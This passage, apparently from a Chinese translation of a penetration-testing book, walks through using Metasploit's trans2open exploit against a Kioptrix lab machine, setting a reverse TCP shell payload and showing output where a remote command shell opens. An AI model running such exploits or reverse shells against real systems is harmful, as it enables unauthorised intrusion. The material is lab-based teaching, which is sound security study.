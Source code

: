 Metasploit 中的所有漏洞利用都提供这些信息。如果时间允许，花时间熟悉一些最常用的漏洞利用将对长远非常有益，因为您将能够避免尝试在生产系统上不起作用的漏洞利用。

现在我们需要设置一些可用的选项：

```
msf > set RHOST 192.168.75.14 

```

`RHOST`是远程主机，需要设置为我们的 Kioptrix 机器的 IP 地址。

```
msf > show payloads 

```

![使用 Metasploit 来利用 Kioptrix](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/adv-pentest-hisec-env/img/7744_04_14.jpg)

`show payloads`命令提供了可以与特定漏洞利用一起使用的所有兼容负载的列表。我们将在本例中使用`reverse_tcp`。这种负载类型通常很小且有效，尽管它没有 meterpreter 提供的全部选项。

```
> set payload linux/x86/shell/reverse_tcp 

```

我们还需要设置`LHOST`和`LPORT`。 

```
> set LHOST 192.168.75.12 

```

这是我们的本地主机，监听器将在上面设置。

```
> set LPORT 2222 

```

这是我们想要监听的端口。

现在这件事已经解决，我们可以继续进行利用：

```
> exploit 

```

如果一切顺利，您将收到以下确认和一个类似于我们在本章前手动编译的漏洞利用为我们提供的连接。

```
msf exploit(trans2open) > exploit 

```

```
[*] Started reverse handler on 192.168.75.12:2221
[*] Trying return address 0xbffffdfc...
[*] Trying return address 0xbffffcfc...
[*] Trying return address 0xbffffbfc...
[*] Trying return address 0xbffffafc...
[*] Sending stage (36 bytes) to 192.168.75.14
[*] Command shell session 2 opened (192.168.75.12:2221 -> 192.168.75.14:32802) at 2011-11-16 23:22:06 -0500

```

